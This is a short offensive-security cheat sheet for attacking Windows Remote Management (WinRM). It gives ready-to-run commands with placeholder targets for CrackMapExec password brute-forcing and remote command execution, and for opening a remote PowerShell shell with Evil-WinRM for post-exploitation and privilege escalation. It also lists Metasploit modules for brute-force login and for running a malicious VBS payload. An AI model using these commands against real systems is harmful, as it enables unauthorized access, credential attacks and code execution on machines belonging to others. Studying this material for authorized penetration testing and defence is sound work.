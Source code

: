 # WinRM

**WinRM (Windows Remote Management)**
**Description**: Protocol for remote command execution on Windows via HTTP(S), often used by admins and attackers alike.
**Ports**: TCP 5985 (HTTP), 5986 (HTTPS)

<br>

# Enumeration with CrackMapExec (CME)

```shell
# Check WinRM availability
crackmapexec winrm <target_IP> -p <port>

# Brute-force with username and password list
crackmapexec winrm <target_IP> -u administrator -p <password_wordlists>

# Test single credentials + run remote commands
crackmapexec winrm <target_IP> -u <username> -p <password> -x "whoami"
crackmapexec winrm <target_IP> -u <username> -p <password> -x "systeminfo"
```

<br>

# Remote Shell Access with Evil-WinRM

```shell
evil-winrm -u administrator -p '<password>' -i <target_IP>
# Connects to a Windows target over WinRM using specified credentials.
# Opens a remote PowerShell session for post-exploitation and privilege escalation.
```

<br>

# Enumeration & Exploitation with Metasploit

```shell
use auxiliary/scanner/winrm/winrm_auth_methods
# Lists available authentication methods supported by the WinRM service (e.g., Basic, NTLM, Kerberos).

use auxiliary/scanner/winrm/winrm_login
# Attempts brute-force login on WinRM using username and password files.
set PASSWORD anything
# Sets a default password (used if PASS_FILE is not set).
# set USER_FILE → Path to file with usernames.
# set PASS_FILE → Path to file with passwords.

use auxiliary/scanner/winrm/winrm_cmd
# Executes remote PowerShell commands over WinRM.
set CMD whoami
# Sets the command to be executed on the target.

use exploit/windows/winrm/winrm_script_exec
# Executes a malicious VBS script on the target using WinRM.
set FORCE_VBS true
# Forces the use of a VBS payload for execution.
```
